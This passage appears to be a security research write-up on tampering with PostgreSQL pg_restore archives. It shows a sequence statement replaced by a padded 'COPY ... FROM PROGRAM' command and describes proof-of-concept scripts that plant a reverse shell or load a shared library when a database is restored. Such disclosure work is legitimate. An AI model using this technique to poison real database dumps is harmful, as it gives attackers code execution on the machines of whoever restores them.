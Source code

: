 As long as the length of lines in the archive do not change, statements can be changed to arbitrary pSQL.
In each of the following POC I used the pSQL [CREATE SEQUENCE](https://www.postgresql.org/docs/8.1/sql-createsequence.html)
statement and replaced with my own padded pSQL.

```bash
$ pg_restore -U postgres dumpfile | grep "public.seq" -B 1
-- Name: seq; Type: SEQUENCE SET; Schema: public; Owner: postgres
SELECT pg_catalog.setval('public.seq', 10000000000000, true);
```

Becomes:

```bash
$ pg_restore -U postgres dumpfile | egrep "(public.seq|PROGRAM)" -B 1
-- Name: seq; Type: SEQUENCE SET; Schema: public; Owner: postgres
COPY public.dump FROM PROGRAM 'touch /tmp/code_exec'        ;
```

Each of the following examples have been modified to create a reverse shell on database restoration.

## COPY command execution

The `pgrestore_copy.py` script will replace the sequence pSQL statement with `COPY .. FROM PROGRAM`.  This will execute arbitrary commands on restore.

```bash
$ psql -U postgres -c 'CREATE DATABASE poc' &&
> python pgrestore_copy.py &&
> pg_restore -U postgres -d poc copy.dump
```

![copy-code-execution](/assets/images/postgres_pgrestore_exploitation/copy_rev.gif)

## COPY binary execution

`pgrestore_bin_func.py` showcases an alternative method that doesn't require the use of `COPY .. FROM PROGRAM`.  It writes a shared library to a table as binary data, data which will be contained in the resulting archive. pSQL sequence statements are replaced by the `COPY` and `CREATE FUNCTION` commands to write the shared library to a file, load it, and execute the function on database restoration.

```bash
$ psql -U postgres -c 'CREATE DATABASE poc' &&
> python pgrestore_bin_func.py &&
> pg_restore -U postgres -d poc bin_func.dump
```
